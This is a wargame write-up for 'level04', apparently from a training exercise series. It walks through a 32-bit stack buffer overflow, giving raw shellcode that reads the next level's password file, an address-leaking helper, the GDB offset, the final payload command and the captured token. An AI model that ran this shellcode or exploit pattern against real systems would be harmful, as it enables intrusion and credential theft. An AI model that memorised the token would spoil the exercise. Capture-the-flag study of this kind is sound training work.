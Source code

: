 # level04

1. Overview / Static analysis

   * Classic **stack buffer overflow** that overwrites the saved return address (EIP) and redirects execution to attacker‑supplied **shellcode**.
   * Shellcode is stored in an **environment variable** (`SHELLCODE`) to get a relatively stable location that can be leaked at runtime.
   * Target is **32‑bit**; addresses are 4 bytes and written **little‑endian** in the payload.

2. Vulnerability & plan of attack

   * Overflow a stack buffer during input, control EIP, and pivot execution into the shellcode placed in `SHELLCODE`.
   * Steps:

     1. Export shellcode into env.
     2. Leak `getenv("SHELLCODE")` to obtain its runtime address.
     3. Find the exact **offset to EIP** with a cyclic pattern under GDB (found to be **156** bytes).
     4. Build final payload = `A * 156` + `<addr_of_shellcode>` (little‑endian) and feed it to the program.

3. Preparing shellcode in the environment

   The shellcode opens and reads `/home/users/level05/.pass` and prints it. Export it as an environment variable:

   ```bash
   export SHELLCODE=$'\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass'
   ```

4. Leaking the shellcode address

   Compile a tiny helper (32‑bit) to print `getenv("SHELLCODE")` and run it to capture the pointer:

   ```bash
   printf '%s\n' '#include <stdio.h>' '#include <stdlib.h>' 'int main(void){ printf("%p\n", getenv("SHELLCODE")); return 0; }' > /tmp/_tmp.c \
     && gcc -O2 -m32 /tmp/_tmp.c -o /tmp/_tmp \
     && /tmp/_tmp \
     && rm -f /tmp/_tmp /tmp/_tmp.c
   # output :
   0xffffd8b8
   ```

   leaked address: **`0xffffd8b8`** (in the environment area).

5. Finding the overflow offset (under GDB)

   Use a cyclic pattern ([wiremask](https://wiremask.eu/tools/buffer-overflow-pattern-generator/)) for the crashing input. The program crashes with EIP = `0x41326641`, from which the EIP overwrite **offset = 156** bytes was determined.

   ```bash
   (gdb) set follow-fork-mode child
   (gdb) run
   Starting program: /home/users/level04/level04
   Give me some shellcode, k
   # long input...
   Program received signal SIGSEGV, Segmentation fault.
   0x41326641 in ?? ()   # offset -> 156
   ```

6. Exploit construction

   **Payload layout:**

   ```
   [ 156 x 'A' ]  [ <addr_of_SHELLCODE> ]
                  ^ little-endian 4 bytes (e.g., 0xffffd8b8 -> \xb8\xd8\xff\xff)
   ```

   **Final command (using the example leaked addr):**

   ```bash
   python -c "print('A'*156 + '\xb8\xd8\xff\xff')" | ./level04
   ```

7. Token discovered

   Token `3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN`
